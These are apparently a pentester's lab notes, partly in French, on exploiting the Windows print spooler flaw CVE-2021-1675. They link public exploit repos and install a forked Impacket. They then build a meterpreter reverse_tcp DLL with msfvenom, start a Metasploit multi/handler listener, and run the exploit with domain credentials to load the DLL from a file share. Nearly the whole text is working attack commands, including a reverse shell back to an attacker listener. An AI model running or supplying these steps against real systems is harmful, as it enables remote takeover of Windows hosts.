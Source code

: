 CVE-2021-1675

> cube0x0 RCE - https://github.com/cube0x0/CVE-2021-1675  
> calebstewart LPE - https://github.com/calebstewart/CVE-2021-1675  

Install and run Impacket
> pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install

> gedit CVE-2021-1675.py

Use msfvenom to create payload :

> msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.10(monip) LPORT=5555 > shell.dll

> msfconsole
msf5 > use multi/handler
msf5 > exploit (multi/handler) > options
msf5 > exploit (multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
msf5 > exploit (multi/handler) > set lport 5555
msf5 > exploit (multi/handler) > set LHOST 10.10.14.101
msf5 > exploit (multi/handler) > run

Derrière on va ouvrir une session comme si on se connectait au Share :

> python3 CVE-2021-1675.py marvel.local/fcastle:Password123@IPdelacible '\\IPduFILEshare\share\shell.dll



